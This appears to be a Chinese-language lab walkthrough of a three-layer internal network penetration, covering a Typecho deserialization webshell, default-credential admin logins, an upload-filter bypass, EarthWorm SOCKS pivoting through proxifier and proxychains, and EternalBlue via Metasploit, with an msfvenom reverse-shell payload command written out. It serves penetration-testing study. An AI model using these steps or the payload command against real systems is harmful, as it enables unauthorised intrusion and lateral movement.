









内网渗透 | 手把手教你如何进行内网渗透
目录结构

0x01 DMZ渗透
看到DMZ开启了web服务，是一个typecho的cms，后台默认就是/admin
尝试爆破
但是找了一圈并没有发现有什么可以利用的,网上有一个反序列化的洞可以用。

上面呢，就是利用exp将一句话写入当前目录的shellx.php中。
到这里呢，想了想我们的目标是内网，并且防火墙没开，就不考虑提权了。
0x02 跳板及内网探测
现在的目标是将此DMZ服务器当作跳板并探测内网的服务器。
0x2.1 做跳板
采用ew套接字<socks>代理，服务器上运行准备好的ew_for_linux64，本地使用proxifier配置如下：
代理规则配置如上，可以根据情况具体配置，以上是Windows端的配置，但是渗透难免会用到kali，所以kali也需要配置：
首先修改一下/etc/proxychains.conf，如下图所示：
修改完成后保存，然后就可以proxychains nmap等等。
至此，跳板配置基本完成。
还有一种方法是利用msf生成马儿让目标运行，反弹回来meterpreter查看路由添加路由，然后msf就可以访问内网，可以使用msf来探测以及渗透测试。
0x2.2 内网探测
这里首先有几种方法。
第一种，ifconfig，适用于双网卡的情况：
但是可以看到，并没有我们需要的信息。
第二种查看路由以及arp：

上图是查看路由，还可以利用arp -a查看一下arp的信息，以及可以利用traceroute xxx.com查看一下路由走的路径。
但是看到也没有我们想要的信息，到这里我是很迷茫了，找不到内网另一个ip段，我就去问了一下环境的搭建者，他也不知道怎么找，索性就把ip段告诉了我，此处留个疑问，希望有想法的大佬联系我。
既然知道了ip段，就需要探测一下到底哪些主机我们可以渗透：

利用proxychain nmap达到nmap使用代理扫描的效果，这里需要注意的是socket代理不支持ICMP协议，所以nmap的参数应设置如上图所示，端口可以自己改。
可以看到10.10.1.1以及10.10.1.2的80端口都开着，那我就proxychains3 firefox打开火狐访问了一下，第一个是路由器的管理，第二个是一个cms。到这里呢，可以去猜一下路由的密码，我是直接去看了cms，因为kali中渗透web有点麻烦，所以就利用上面配置好的proxifier代理在Windows下进行渗透。
0x03 第二层渗透
0x3.1 web渗透 or MS17_010

后台默认路径/admin.php，使用了默认账号密码admin 123456
这个cms呢，后台可以getshell，我是被卡在burpsuite抓包上面，开了burpsuite总是无法访问，后来才发现，在burpsuite里面设置了socks代理就没必要再开proxifier了。burp配置如下：

如上配置后，就不需要再开socks代理工具了，否则会出现问题。
在后台添加php允许上传，再去上传点，不要传php因为判断了Content-Type。

会看到上传成功的提醒，关于路径有以下方法：

成功getshell，这是一种方法，比较麻烦。
前期内网探测时发现了这是台windows服务器，并且存在MS17_010漏洞，可以proxychains3 msfconsole利用msf直接打。
0x3.2 内网探测+跳板代理链
因为这是第二层内网，所以要连接webshell需要打开proxifier然后用AntSword进行连接。

如上图我们知道了第三层ip段为4.4.1.x，看一下arp表：

这种基本猜测下个目标就是4.4.1.2了，但还是需要nmap探测一下，在此之前，先配置代理链。
还是使用earthworm进行socks代理，服务端运行后，本机配置如下：

配置完成后，用nmap探测一下
可以看到开了135、445、3389,啥都不说了，永恒之蓝打一波。
0x4 第三层内网渗透

这里需要注意，payload要选择正向连接的，不要反弹shell，因为我们访问得到目标而目标访问不到我们。

得到一个meterpreter shell。
这样我们拿到了admin的密码，直接远程连接：
至此呢，本次内网渗透就完成了。
0x5 总结
0x5.1 跳板总结
拿到DMZ的shell或权限后，可以使用ew建立socks代理，我们的windows用proxifier，我们的linux用proxychains连接，即可访问内网。如果是多层，那么proxifier提供代理链，proxychains也可以多层代理。
ew_for_linux64 -s ssocksd -l 8888ew_for_windows.exe -s ssocksd -l 8888ew建立ss连接。
windows下若需要burpsuite进行配合，就关掉proxifier，使用burpsuite配置socks代理，其他步骤和平常使用burp一样即可。
Linux下若使用burpsuite与上面同理，不要使用proxychains即可。
0x5.2 内网探测
Linux下还可以通过msf进行内网探测以及攻击：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=1234 -f exe -o payload.exe反弹payload配置，正向配置rhost以及rport即可。
针对双网卡的目标：

若是路由的话，可以先看一下路由，或按照上面msf的情况：
若是没有有效信息，可以考虑社工。
关于nmap：
因为ss不支持ICMP协议，所以要加如上参数，若需要其他功能则直接加就行。
0x5.3 后话
本次DMZ开启了web服务是linux服务器，第二层开了web服务是windows服务器，第三层windows服务器。
渗透过程中，首先要明确目标开了什么服务，什么操作系统等等，我们才知道如何下手。
本次渗透没有涉及域渗透，只是简单说明一下渗透流程。

推荐阅读：
原创投稿作者：Railgun
作者博客：www.pwn4fun.com
本文由公众号HACK学习排版编辑整理